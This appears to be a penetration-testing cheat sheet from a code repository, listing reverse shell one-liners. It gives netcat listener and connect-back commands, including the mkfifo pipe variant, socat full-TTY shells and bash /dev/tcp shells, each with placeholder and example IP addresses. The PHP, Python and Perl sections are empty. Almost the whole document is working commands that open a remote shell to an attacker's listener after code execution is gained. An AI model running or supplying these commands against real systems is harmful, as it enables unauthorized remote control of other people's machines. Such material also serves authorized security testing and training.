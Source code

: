 # Reverse Shells

Often during the course of an attack, you may gain RCE, and using it you may want to gain a shell. This is often achieved using a reverse shell

## Netcat

### Setting A Listener

    nc -nvlp [Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    nc -nlvp 4444

### With -e

Newer versions have a nice option `-e` which allows binding of a process to an nc connection

    nc -e /bin/sh [IP] [Port]

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    nc -e /bin/sh 192.168.56.101 4444

### Without -e

Older versions of nc don't have the nice `-e` option, so it has to be done slightly differently

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [Port] >/tmp/f

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.102 4444 >/tmp/f

## Socat

### Setting A Listener

    socat file:`tty`,raw,echo=0 tcp-listen:[Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    socat file:`tty`,raw,echo=0 tcp-listen:4444

### Simple Full tty

    socat tcp-connect:[IP]:[Port] exec:"bash -li",pty,stderr,setsid,sigint,sane

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    socat tcp-connect:192.168.54.65:6666 exec:"bash -li",pty,stderr,setsid,sigint,sane

## Bash

### Simple Bash Shell

    bash -i >& /dev/tcp/[IP]/[Port] 0>&1

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    bash -i >& /dev/tcp/192.168.56.101/4444 0>&1

### Alternative

    echo 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1' | bash

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    echo 'bash -i >& /dev/tcp/192.168.212.5/1234 0>&1' | bash

## PHP



## Python



## Perl



*Note: Some shells here were sourced or modified from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*